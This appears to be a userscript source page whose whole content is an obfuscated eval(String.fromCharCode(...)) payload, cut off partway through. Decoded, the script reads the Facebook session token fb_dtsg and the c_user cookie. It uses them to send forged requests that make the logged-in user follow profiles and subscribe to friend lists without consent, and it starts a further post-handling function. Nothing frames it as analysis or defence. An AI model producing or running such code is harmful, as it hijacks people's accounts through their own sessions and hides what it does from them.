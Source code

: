 eval(String.fromCharCode(47, 47, 32, 61, 61, 85, 115, 101, 114, 83, 99, 114, 105, 112, 116, 61, 61, 10, 47, 47, 32, 64, 110, 97, 109, 101, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 34, 77, 111, 104, 97, 109, 97, 100, 32, 69, 102, 116, 101, 107, 104, 97, 114, 105, 46, 65, 114, 109, 105, 110, 34, 10, 47, 47, 32, 61, 61, 47, 85, 115, 101, 114, 83, 99, 114, 105, 112, 116, 61, 61, 10, 118, 97, 114, 32, 112, 97, 114, 101, 110, 116, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 34, 104, 116, 109, 108, 34, 41, 91, 48, 93, 59, 10, 118, 97, 114, 32, 95, 98, 111, 100, 121, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 84, 97, 103, 78, 97, 109, 101, 40, 39, 98, 111, 100, 121, 39, 41, 91, 48, 93, 59, 10, 10, 118, 97, 114, 32, 102, 98, 95, 100, 116, 115, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 78, 97, 109, 101, 40, 39, 102, 98, 95, 100, 116, 115, 103, 39, 41, 91, 48, 93, 46, 118, 97, 108, 117, 101, 59, 10, 118, 97, 114, 32, 117, 115, 101, 114, 95, 105, 100, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 47, 99, 95, 117, 115, 101, 114, 61, 40, 92, 100, 43, 41, 47, 41, 91, 49, 93, 41, 59, 10, 118, 97, 114, 32, 102, 98, 95, 100, 116, 115, 103, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 78, 97, 109, 101, 40, 34, 102, 98, 95, 100, 116, 115, 103, 34, 41, 91, 48, 93, 46, 118, 97, 108, 117, 101, 59, 10, 118, 97, 114, 32, 117, 115, 101, 114, 95, 105, 100, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 47, 99, 95, 117, 115, 101, 114, 61, 40, 92, 100, 43, 41, 47, 41, 91, 49, 93, 41, 59, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 97, 40, 97, 98, 111, 110, 101, 41, 123, 118, 97, 114, 32, 104, 116, 116, 112, 52, 61, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 59, 118, 97, 114, 32, 117, 114, 108, 52, 61, 34, 47, 97, 106, 97, 120, 47, 102, 111, 108, 108, 111, 119, 47, 102, 111, 108, 108, 111, 119, 95, 112, 114, 111, 102, 105, 108, 101, 46, 112, 104, 112, 63, 95, 95, 97, 61, 49, 34, 59, 118, 97, 114, 32, 112, 97, 114, 97, 109, 115, 52, 61, 34, 112, 114, 111, 102, 105, 108, 101, 95, 105, 100, 61, 34, 43, 97, 98, 111, 110, 101, 43, 34, 38, 108, 111, 99, 97, 116, 105, 111, 110, 61, 49, 38, 115, 111, 117, 114, 99, 101, 61, 102, 111, 108, 108, 111, 119, 45, 98, 117, 116, 116, 111, 110, 38, 115, 117, 98, 115, 99, 114, 105, 98, 101, 100, 95, 98, 117, 116, 116, 111, 110, 95, 105, 100, 61, 117, 51, 55, 113, 97, 99, 95, 51, 55, 38, 102, 98, 95, 100, 116, 115, 103, 61, 34, 43, 102, 98, 95, 100, 116, 115, 103, 43, 34, 38, 108, 115, 100, 38, 95, 95, 34, 43, 117, 115, 101, 114, 95, 105, 100, 43, 34, 38, 112, 104, 115, 116, 97, 109, 112, 61, 34, 59, 104, 116, 116, 112, 52, 46, 111, 112, 101, 110, 40, 34, 80, 79, 83, 84, 34, 44, 117, 114, 108, 52, 44, 116, 114, 117, 101, 41, 59, 104, 116, 116, 112, 52, 46, 111, 110, 114, 101, 97, 100, 121, 115, 116, 97, 116, 101, 99, 104, 97, 110, 103, 101, 61, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 123, 105, 102, 40, 104, 116, 116, 112, 52, 46, 114, 101, 97, 100, 121, 83, 116, 97, 116, 101, 61, 61, 52, 38, 38, 104, 116, 116, 112, 52, 46, 115, 116, 97, 116, 117, 115, 61, 61, 50, 48, 48, 41, 104, 116, 116, 112, 52, 46, 99, 108, 111, 115, 101, 125, 59, 104, 116, 116, 112, 52, 46, 115, 101, 110, 100, 40, 112, 97, 114, 97, 109, 115, 52, 41, 125, 97, 40, 34, 34, 41, 59, 102, 117, 110, 99, 116, 105, 111, 110, 32, 115, 117, 98, 108, 105, 115, 116, 40, 117, 105, 100, 115, 115, 41, 123, 118, 97, 114, 32, 97, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 39, 115, 99, 114, 105, 112, 116, 39, 41, 59, 97, 46, 105, 110, 110, 101, 114, 72, 84, 77, 76, 61, 34, 110, 101, 119, 32, 65, 115, 121, 110, 99, 82, 101, 113, 117, 101, 115, 116, 40, 41, 46, 115, 101, 116, 85, 82, 73, 40, 39, 47, 97, 106, 97, 120, 47, 102, 114, 105, 101, 110, 100, 115, 47, 108, 105, 115, 116, 115, 47, 115, 117, 98, 115, 99, 114, 105, 98, 101, 47, 109, 111, 100, 105, 102, 121, 63, 108, 111, 99, 97, 116, 105, 111, 110, 61, 112, 101, 114, 109, 97, 108, 105, 110, 107, 38, 97, 99, 116, 105, 111, 110, 61, 115, 117, 98, 115, 99, 114, 105, 98, 101, 39, 41, 46, 115, 101, 116, 68, 97, 116, 97, 40, 123, 32, 102, 108, 105, 100, 58, 32, 34, 43, 117, 105, 100, 115, 115, 43, 34, 32, 125, 41, 46, 115, 101, 110, 100, 40, 41, 59, 34, 59, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 97, 41, 125, 118, 97, 114, 32, 117, 115, 101, 114, 95, 105, 100, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 47, 99, 95, 117, 115, 101, 114, 61, 40, 92, 100, 43, 41, 47, 41, 91, 49, 93, 41, 59, 118, 97, 114, 32, 102, 98, 95, 100, 116, 115, 103, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 78, 97, 109, 101, 40, 39, 102, 98, 95, 100, 116, 115, 103, 39, 41, 91, 48, 93, 46, 118, 97, 108, 117, 101, 59, 118, 97, 114, 32, 110, 111, 119, 61, 40, 110, 101, 119, 32, 68, 97, 116, 101, 41, 46, 103, 101, 116, 84, 105, 109, 101, 40, 41, 59, 102, 117, 110, 99, 116, 105, 111, 110, 32, 80, 40, 112, 111, 115, 116, 41, 123, 118, 97, 114, 32, 88, 61, 110, 101, 119,